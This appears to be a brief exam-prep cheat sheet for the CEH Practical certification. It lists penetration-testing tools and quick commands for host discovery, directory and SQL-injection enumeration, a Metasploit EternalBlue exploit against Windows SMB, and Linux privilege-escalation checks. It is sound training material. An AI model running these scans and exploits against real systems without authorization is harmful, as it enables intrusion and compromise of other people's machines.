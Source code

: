 ### Essential Tools for CEH Practical
- **Nmap**: Port scanning and service detection
- **Metasploit**: Exploitation framework
- **Burp Suite**: Web application testing
- **SQLMap**: SQL injection testing
- **John the Ripper**: Password cracking
- **Netcat**: Network communication
- **Wireshark**: Network analysis
- **Hydra**: Brute force attacks

### Quick Reference Commands

#### Network Discovery
```bash
nmap -sn 192.168.1.0/24
nmap -p- -sS -sV -O <target_ip>
```

#### Web Testing
```bash
dirb http://<target_ip>/
sqlmap -u "http://<target_ip>/page.php?id=1" --dbs
```

#### Windows Exploitation
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target_ip>
exploit
```

#### Linux Privilege Escalation
```bash
find / -perm -4000 2>/dev/null
sudo -l
cat /etc/crontab
```

Remember to document every step and maintain detailed notes throughout the exam process. The CEH Practical emphasizes hands-on exploitation skills, so focus on actually compromising systems rather than just identifying vulnerabilities.